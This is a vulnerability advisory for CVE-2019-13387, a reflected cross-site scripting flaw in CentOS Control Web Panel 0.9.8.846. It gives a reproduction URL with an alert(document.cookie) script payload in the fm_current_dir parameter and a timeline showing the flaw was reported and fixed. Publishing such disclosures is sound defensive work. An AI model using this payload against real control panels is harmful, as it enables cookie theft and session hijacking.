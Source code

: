 # Information

```
Exploit Title       : CWP (CentOS Control Web Panel) Reflected Cross Site Scripting
Date                : 7 July 2019
Exploit Author      : Pongtorn Angsuchotmetee, Nissana Sirijirakal, Narin Boonwasanarak
Vendor Homepage     : https://control-webpanel.com/
Software Link       : Not available, user panel only available for lastest version
Version             : 0.9.8.846
Tested on           : CentOS 7.6.1810 (Core) FireFox 68.0.1 (64-bit)
CVE-Number          : CVE-2019-13387
```



# Description:

CWP Version 0.9.8.846 have implemented token in every URL to prevent cross site scripting.
But the aplication checks only length of the token, this allows attacker to follow the token format to bypass XSS protection
Refer to  : CVE-2018-18324


#  Steps to Reproduce

1. Example : https://[target.com]:2083/cwp_xxxxxxxxxxxxxxxx/user1/fileManager2.php?frame=3&fm_current_dir=</script><script>alert(document.cookie)</script>

Parameter Name: fm_current_dir
Attack Pattern for XSS: </script><script>alert(document.cookie)</script>



<kbd>![](resources/CVE-2019-13387.md/ezgi.gif)</kbd>

```

#  Timeline

```
2019-07-07: Discovered the bug
2019-07-07: Reported to vendor
2019-07-07: Vender accepted the vulnerability
2019-07-15: The vulnerability has been fixed
2019-07-23: Published
```
